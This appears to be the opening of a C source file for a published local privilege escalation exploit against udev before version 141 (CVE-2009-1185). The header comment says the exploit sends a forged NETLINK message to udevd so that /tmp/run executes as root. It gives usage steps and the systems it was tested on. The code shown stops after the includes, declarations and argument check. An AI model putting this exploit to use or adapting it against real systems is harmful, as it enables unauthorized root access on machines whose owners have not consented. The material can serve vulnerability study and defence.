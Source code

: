 ```c
/*
 * cve-2009-1185.c
 *
 * udev < 141 Local Privilege Escalation Exploit
 * Jon Oberheide <jon@oberheide.org>
 * http://jon.oberheide.org
 *
 * Information:
 *
 *   http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1185
 *
 *   udev before 1.4.1 does not verify whether a NETLINK message originates 
 *   from kernel space, which allows local users to gain privileges by sending 
 *   a NETLINK message from user space.
 *
 * Notes:
 *   
 *   An alternate version of kcope's exploit.  This exploit leverages the 
 *   95-udev-late.rules functionality that is meant to run arbitrary commands 
 *   when a device is removed.  A bit cleaner and reliable as long as your 
 *   distro ships that rule file.
 *
 *   Tested on Gentoo, Intrepid, and Jaunty.
 *
 * Usage:
 *
 *   Pass the PID of the udevd netlink socket (listed in /proc/net/netlink, 
 *   usually is the udevd PID minus 1) as argv[1].
 *
 *   The exploit will execute /tmp/run as root so throw whatever payload you 
 *   want in there.
 */

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/socket.h>
#include <linux/types.h>
#include <linux/netlink.h>

#ifndef NETLINK_KOBJECT_UEVENT
#define NETLINK_KOBJECT_UEVENT 15
#endif

int
main(int argc, char **argv)
{
	int sock;
	char *mp, *err;
	char message[4096];
	struct stat st;
	struct msghdr msg;
	struct iovec iovector;
	struct sockaddr_nl address;

	if (argc < 2) {
		err = "Pass the udevd netlink PID as an argument";
		printf("[-] Error: %s\n", err);
		exit(1);
	}
```